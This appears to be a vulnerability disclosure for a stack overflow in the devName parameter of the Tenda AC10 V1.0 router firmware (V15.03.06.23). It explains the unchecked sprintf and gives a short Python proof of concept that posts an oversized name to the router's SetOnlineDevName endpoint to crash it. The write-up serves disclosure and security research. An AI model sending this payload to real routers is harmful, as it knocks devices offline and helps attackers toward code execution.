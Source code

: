 stackflow\_formSetDeviceName
----------------------------

### Overview

*   Equipment website：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   Firmware download website：[AC10V1.0升级软件](https://www.tenda.com.cn/material/show/102734)

### Affected version

V1.0 V15.03.06.23

### Vulnerability details

Tenda AC10 V1.0 V15.03.06.23 The devName argument in the formSetDeviceName function causes a stack overflow and passes it to the function "set\_device\_name" without any length checking. Once the ROP chain is built, malicious code can be executed.
![image](https://github.com/user-attachments/assets/5d1c6efd-62dc-4064-8011-0dffee096432)

After getting the mac and devName parameters, type set\_device\_name, check only if the parameter "dev\_name" exists, and use sprintf to pass it to the "mib\_name" array, which will overflow the stack if the length exceeds it

![image](https://github.com/user-attachments/assets/8f33ad4a-94f9-47f2-b35e-f1b6d9420636)


### poc

```text-plain
import requests
ip = '192.168.142.100'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
   "mac": '9c:fc:e8:da:9c:5b',
   "devName": 'Raining'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

![image](https://github.com/user-attachments/assets/df91aea1-335e-4519-8853-273238cf1623)

